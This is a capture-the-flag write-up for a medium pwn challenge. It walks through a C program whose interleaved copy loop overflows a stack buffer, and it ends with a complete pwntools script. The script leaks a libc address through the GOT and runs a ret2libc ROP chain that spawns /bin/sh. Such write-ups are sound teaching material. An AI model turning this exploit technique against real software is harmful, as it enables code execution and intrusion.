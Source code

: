 # Challenge
Author: jinjinz

Difficulty: Medium

A wild alien has appeared! Our Earth Defense Forces did not predict this invasion and could not respond in time. The only usable weapon right now is a pair of loaded laser cannons that can fire just once. It is up to you as the marksman operator to take down this enemy of mankind. Also, there are some rumours that this alien is holding onto our flag. Make this shot count.

[alternate](alternate)

# Understanding the Program

We are given the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>

#define BUFSIZE 68

char buf1[BUFSIZE], buf2[BUFSIZE];

void load_cannon()
{
	int idx1, idx2, idx;
	int byte_read1, byte_read2;
	char buf[BUFSIZE];

	memset(buf, BUFSIZE, 0);
	printf("Load up Cannon Alpha: ");
	byte_read1 = fread(buf1, 1, BUFSIZE, stdin);
	printf("Load up Cannon Beta: ");
	byte_read2 = fread(buf2, 1, BUFSIZE, stdin);

	buf1[BUFSIZE-1] = 0;
	buf2[BUFSIZE-1] = 0;

	printf("Launching Cannon....\n");

	if(byte_read1 != byte_read2)
	{
		printf("[!] Two laser cannon did not have the same number of ammo!!\n");
		return;
	}

	for(idx = 0; idx < byte_read1 + byte_read2; idx++)
	{
		idx1 = (idx % 2) ? BUFSIZE - 1 : idx / 2;
		idx2 = (idx % 2) ? idx / 2 : BUFSIZE - 1;
		buf[idx] = buf1[idx1] + buf2[idx2];
	}

	printf("[!] Launched! Did you manage to retrieve what is in the alien's pocket?\n");
}

int main(void)
{
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	printf("░░░░░░░░░░░░░░░░░░░░░░░░░\n"
		"░░░░░░░▄░▀▄░░░▄▀░▄░░░░░░░\n"
		"░░░░░░░█▄███████▄█░░░░░░░\n"
		"░░░░░░░███▄███▄███░░░░░░░\n"
		"░░░░░░░▀█████████▀░░░░░░░\n"
		"░░░░░░░░▄▀░░░░░▀▄░░░░░░░░\n"
		"░░░░░░░░░░░░░░░░░░░░░░░░░\n");
	printf("[!] Wild alien has appeared!\n");
	printf("##################################################################\n");
	printf("The alien is hiding something inside its pocket. Defeat the alien and clear this level!\n");
	printf("In order to defeat the alien and clear this level, you have to load up two laser cannon.\n");
	printf("[*] Two laser cannon can only hold the same amount of ammo.\n");
	printf("[*] After filling up both cannons, the cannon will automatically start firing!\n");
	printf("##################################################################\n");
	printf("Start loading up cannon.....\n");

	load_cannon();
	return 0;
}
```


It seems like the programme reads 68 bytes into buf1 and buf2 respectively, and zeroes out index 67 of both buf1 and buf2.

```c
    memset(buf, BUFSIZE, 0);
    printf("Load up Cannon Alpha: ");
    byte_read1 = fread(buf1, 1, BUFSIZE, stdin);
    printf("Load up Cannon Beta: ");
    byte_read2 = fread(buf2, 1, BUFSIZE, stdin);

    buf1[BUFSIZE-1] = 0;
    buf2[BUFSIZE-1] = 0;
```

It then reads 128 bytes of ... something into buf.

```c
    for(idx = 0; idx < byte_read1 + byte_read2; idx++)
    {
        idx1 = (idx % 2) ? BUFSIZE - 1 : idx / 2;
        idx2 = (idx % 2) ? idx / 2 : BUFSIZE - 1;
        buf[idx] = buf1[idx1] + buf2[idx2];
    }
```

This may initially seem confusing, however it can be rewritten into something like this
```c
for (idx = 0; idx < byte_read1 + byte_read2; idx++)
{
	if ( idx % 2 == 1) {
		idx1 = BUFSIZE - 1 // we already know this was set to 0 initially
		idx2 = idx / 2
	} else {
		idx1 = idx / 2
		idx2 = BUFSIZE - 1
	}
	
	buf[idx] = buf1[idx1] + buf2[idx2];
}
```

How this works is that, the program will add alternate characters of buf1 and buf2 to buf i.e.

```
buf = buf1[0] + buf2[0] + buf1[1] + buf2[1] + buf1[2] + buf1[2] + ...
```

# Exploit

This means that we can write up to 136 characters into buf which only holds 68 characters. This presents us a buffer overflow.

If we look at the stack frame for this function in IDA, 

![image](./ida_stack_frame.png)

There is `0x68 = 104` bytes between the start of our buffer to the return address.

This gives us a `136 - 104 = 32` bytes of space to write our rop chain, which is more than enough for a ret2libc attack.

Looking at the securities of the binary,

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

This will be a easy ret2libc.

### Solve Script

First we will leak the GOT entry of our printf function, which allows us to calculate base address of libc, defeating **ASLR**.

With libc address, we can calculate address of `system` and `/bin/sh`, and hence allow us to call `system('/bin/sh')`.

```py
# coding: utf-8
from pwn import *

context.binary = elf = ELF('./alternate')
libc = elf.libc
p = process('./alternate')


def write(ropchain):
    print(len(ropchain))
    assert len(ropchain) == 32

    payload = b"A"*76               # fill buffer
    payload += p32(0) * 2           # idx1 & idx2 which are irrelevant
    payload += p32(68) * 2          # byte_read1&2 which define read size
    payload += p32(len(payload))    # fill idx with the current idx
    payload += b"A" * 8             # overwrite saved rbp
    payload += ropchain

    num_write = len(payload)
    alpha = "".join(chr(payload[x]) for x in range(0, num_write, 2))
    beta = "".join(chr(payload[x]) for x in range(1, num_write, 2))
    p.sendafter("Alpha: ", alpha)
    p.sendafter("Beta: ", beta)


POPRDI = 0x00000000004008b3

r = p64(POPRDI) + p64(elf.got.printf)   # leak printf GOT entry
r += p64(elf.sym.puts)                  # leak printf GOT entry
r += p64(elf.sym.main)                  # loop program back to main
write(r)

p.recvuntil("pocket?\n")
leak = unpack(p.recvline().strip(), 'all')
libc.address = leak - libc.sym.printf

r = p64(POPRDI) + p64(next(libc.search(b'/bin/sh')))
r += p64(libc.sym.system) + p64(0xDEADBEEF)
write(r)

p.interactive()
```
